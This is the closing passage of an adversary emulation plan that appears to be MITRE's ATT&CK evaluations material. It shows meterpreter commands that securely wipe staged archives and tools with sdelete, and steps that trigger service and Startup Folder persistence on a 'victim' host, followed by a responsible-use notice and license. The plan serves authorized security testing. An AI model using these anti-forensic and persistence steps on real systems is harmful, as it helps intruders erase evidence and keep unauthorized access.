 [meterpreter (Shell)\*] > `cd "C:\Windows\Temp"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Windows\Temp\Rar.exe"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Users\<username>\AppData\Roaming\working.zip"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Users\<username>\Desktop\working.zip"`

[meterpreter (Shell)\*] > `del "C:\Windows\Temp\sdelete64.exe"`

**Terminate Session**
[meterpreter (Shell)\*] > `exit`
[meterpreter\*] > `exit`
msf> `exit`

### Step 10 - Persistence Execution

#### 10.A

Reboot Windows victim 1; wait for system to boot up

You should receive a callback with SYSTEM permissions from the javamtsup service

#### 10.B

Trigger the Startup Folder persistence by logging in to Windows victim 1

## Liability / Responsible Usage

This content is only to be used with appropriate prior, explicit authorization for the purposes of assessing security posture and/or research.

## Notice

Copyright 2020 The MITRE Corporation

Approved for Public Release; Distribution Unlimited. Case Number 19-03607-2.

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

   <http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

This project makes use of ATT&CK®

[ATT&CK Terms of Use](https://attack.mitre.org/resources/terms-of-use/)
